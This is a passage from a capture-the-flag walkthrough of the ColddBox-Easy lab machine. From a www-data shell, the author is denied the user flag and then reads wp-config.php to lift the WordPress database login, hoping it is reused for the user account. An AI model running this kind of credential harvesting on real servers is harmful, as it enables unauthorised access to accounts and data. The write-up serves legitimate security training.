 ## c0ldd credentials

Unfortunately, we don't have the permission to read the user flag:

~~~
www-data@ColddBox-Easy:/home/c0ldd$ ls -la
ls -la
total 24
drwxr-xr-x 3 c0ldd c0ldd 4096 Oct 19  2020 .
drwxr-xr-x 3 root  root  4096 Sep 24  2020 ..
-rw------- 1 c0ldd c0ldd    0 Oct 19  2020 .bash_history
-rw-r--r-- 1 c0ldd c0ldd  220 Sep 24  2020 .bash_logout
-rw-r--r-- 1 c0ldd c0ldd    0 Oct 14  2020 .bashrc
drwx------ 2 c0ldd c0ldd 4096 Sep 24  2020 .cache
-rw-r--r-- 1 c0ldd c0ldd  655 Sep 24  2020 .profile
-rw-r--r-- 1 c0ldd c0ldd    0 Sep 24  2020 .sudo_as_admin_successful
-rw-rw---- 1 c0ldd c0ldd   53 Sep 24  2020 user.txt
www-data@ColddBox-Easy:/home/c0ldd$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
~~~

Hopefully, the Worpress configuration file discloses credentials to the database, which may be the same credentials as the user:

~~~
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

~~~
